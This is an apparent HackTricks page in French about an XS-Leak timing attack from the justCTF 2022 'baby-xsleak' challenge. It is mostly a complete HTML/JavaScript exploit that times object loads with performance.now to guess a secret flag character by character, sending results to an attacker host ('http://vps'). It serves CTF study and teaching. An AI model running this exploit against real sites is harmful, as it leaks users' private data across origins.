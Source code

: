 # performance.now + Force heavy task

{{#include ../../banners/hacktricks-training.md}}

**Exploitation tirée de [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

Dans ce défi, l'utilisateur pouvait envoyer des milliers de caractères et si le flag était contenu, les caractères seraient renvoyés au bot. En envoyant une grande quantité de caractères, l'attaquant pouvait mesurer si le flag était contenu dans la chaîne envoyée ou non.

> [!WARNING]
> Au départ, je n'ai pas défini la largeur et la hauteur de l'objet, mais plus tard, j'ai découvert qu'il était important de le faire car la taille par défaut est trop petite pour faire une différence dans le temps de chargement.
```html
<!DOCTYPE html>
<html>
<head> </head>
<body>
<img src="https://deelay.me/30000/https://example.com" />
<script>
fetch("https://deelay.me/30000/https://example.com")

function send(data) {
fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
}

function leak(char, callback) {
return new Promise((resolve) => {
let ss = "just_random_string"
let url =
`http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement("object")
object.width = "2000px"
object.height = "2000px"
object.data = url
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log("Error event triggered")
document.body.appendChild(object)
})
}

send("start")

let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
let flag = "justCTF{"

async function main() {
let found = 0
let notFound = 0
for (let i = 0; i < 3; i++) {
await leak("..")
}
for (let i = 0; i < 3; i++) {
found += await leak("justCTF")
}
for (let i = 0; i < 3; i++) {
notFound += await leak("NOT_FOUND123")
}

found /= 3
notFound /= 3

send("found flag:" + found)
send("not found flag:" + notFound)

let threshold = found - (found - notFound) / 2
send("threshold:" + threshold)

if (notFound > found) {
return
}

// exploit
while (true) {
if (flag[flag.length - 1] === "}") {
break
}
for (let char of charset) {
let trying = flag + char
let time = 0
for (let i = 0; i < 3; i++) {
time += await leak(trying)
}
time /= 3
send("char:" + trying + ",time:" + time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
